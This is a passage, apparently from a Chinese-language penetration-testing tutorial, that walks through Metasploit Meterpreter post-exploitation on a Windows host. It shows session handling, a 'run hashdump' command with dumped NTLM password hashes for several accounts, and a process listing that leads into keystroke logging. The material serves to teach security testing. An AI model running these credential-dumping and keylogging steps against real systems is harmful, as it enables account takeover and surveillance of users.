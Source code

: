 如果您选择执行`-j -z`利用命令，则将利用执行推送到后台，并且不会出现交互式 meterpreter shell。但是，如果会话已成功建立，那么您可以使用会话`-i`ID 与特定会话进行交互，或者通过键入会话`-l`获取活动会话的列表以获取确切的 ID 值。

让我们利用 meterpreter shell 的功能，并使用以下命令转储目标持有的当前系统帐户和密码。这些将以 NTLM 哈希格式显示，并可以通过使用以下命令的几种工具和技术来破解：

```
 meterpreter> run hashdump
    [*] Obtaining the boot key...
    [*] Calculating the hboot key using SYSKEY 71e52ce6b86e5da0c213566a1236f892...
    [*] Obtaining the user list and keys...
    [*] Decrypting user keys...
    [*] Dumping password hashes...
    h
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    HelpAssistant:1000:d2cd5d550e14593b12787245127c866d:d3e35f657c924d0b31eb811d2d986df9:::
    SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:c8edf0d0db48cbf7b2835ec013cfb9c5:::
    Momin Desktop:1003:ccf9155e3e7db453aad3b435b51404ee:3dbde697d71690a769204beb12283678:::
    IUSR_MOMINDESK:1004:a751dcb6ea9323026eb8f7854da74a24:b0196523134dd9a21bf6b80e02744513:::
    ASPNET:1005:ad785822109dd077027175f3382059fd:21ff86d627bcf380a5b1b6abe5d8e1dd:::
    IWAM_MOMINDESK:1009:12a75a1d0cf47cd0c8e2f82a92190b42:c74966d83d519ba41e5196e00f94e113:::
    h4x:1010:ccf9155e3e7db453aad3b435b51404ee:3dbde697d71690a769204beb12283678:::
    salesdept:1011:8f51551614ded19365b226f9bfc33fab:7ad83174aadb77faac126fdd377b1693::: 
```

现在，让我们通过使用 meterpreter shell 的键盘记录功能，使用以下命令将此活动进一步记录下来，这可能会从我们的目标中揭示一些有用的数据：

```
 meterpreter>getuid
    Server username: NT AUTHORITYSYSTEM
    meterpreter>ps
    Process list
    ============

     PID   Name              Arch  Session  User                           Path
     ---   ----              ----  -------  ----                           ----
     0     [System Process]
     4     System            x86   0        NT AUTHORITYSYSTEM
     384   smss.exe          x86   0        NT AUTHORITYSYSTEM            SystemRootSystem32smss.exe
     488   csrss.exe         x86   0        NT AUTHORITYSYSTEM            ??C:WINDOWSsystem32csrss.exe
     648   winlogon.exe      x86   0        NT AUTHORITYSYSTEM            ??C:WINDOWSsystem32winlogon.exe
     692   services.exe      x86   0        NT AUTHORITYSYSTEM            C:WINDOWSsystem32services.exe
     704   lsass.exe         x86   0        NT AUTHORITYSYSTEM            C:WINDOWSsystem32lsass.exe
    ...
    148   alg.exe           x86   0        NT AUTHORITYLOCAL SERVICE     C:WINDOWSSystem32alg.exe
    3172  explorer.exe      x86   0        CUSTDESKsalesdept C:WINDOWSExplorer.EXE
    3236  reader_sl.exe     x86   0        CUSTDESKsalesdept C:Program FilesAdobeReader 9.0ReaderReader_sl.exe 
```
